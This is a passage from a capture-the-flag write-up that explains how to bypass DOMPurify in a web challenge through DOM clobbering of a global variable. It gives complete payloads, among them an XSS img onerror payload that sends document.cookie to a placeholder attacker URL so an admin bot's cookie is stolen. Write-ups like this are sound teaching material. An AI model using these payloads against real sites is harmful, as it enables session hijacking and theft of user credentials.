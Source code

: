 ```js
            document.write(`<span style='color: red'>${key} not found in the document</span><br />`);
        }
    }
</script>
```

It takes our query parameters from `window.location.search` and loop through each such that if the `key` is the same as the `id` of an element then it changes the `innerText` of that element. (No XSS here as `innerText` doesn't allow injecting HTML).

Moving on, it checks for `window.AOFCTF24` and then uses `document.write` to print out our `key` and `value`. There's some potential XSS as `document.write` would allow injecting HTML and JavaScript. But this condition won't be true normally as `window.AOFCTF24` is not defined.

Finally, in the `else` part, it applies `DOMPurify` to our `key` and prints it out with `document.write`. Possible XSS here as well due to the usage of `document.write` but since it's using `DOMPurify` that doesn't seem to be the case.

So the workaround is to inject some HTML through the `else` part such that we make `window.AOFCTF24` something other than `undefined` so in the next loop, we can inject the XSS in the `else if` part.

{{< admonition tip "DOM Clobbering" >}}
DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.
{{< /admonition >}}

Source: https://portswigger.net/web-security/dom-based/dom-clobbering

We can inject a payload like following.

Payload for DOM Clobbering: `<a id%3dAOFCTF24><a id%3dAOFCTF24 name%3durl href%3dhttp://test.com/test.js>`

This would make the `window.AOFCTF` condition true in our `else if` part. So for the next loop, we can inject the XSS Payload as follows.

Payload for XSS: `&test=<img src=x onerror=fetch('<your-web-url>?test'.concat(document.cookie));>`

So the final payload would look like this.

Final Payload: `http://challs.airoverflow.com:33878?DOM=test&<a id%3dAOFCTF24><a id%3dAOFCTF24 name%3durl href%3dhttp://test.com/test.js>&test=<img src=x onerror=fetch('<your-web-url>?test'.concat(document.cookie));>`

Send this with admin bot and we'll get our flag in the admin's cookie.
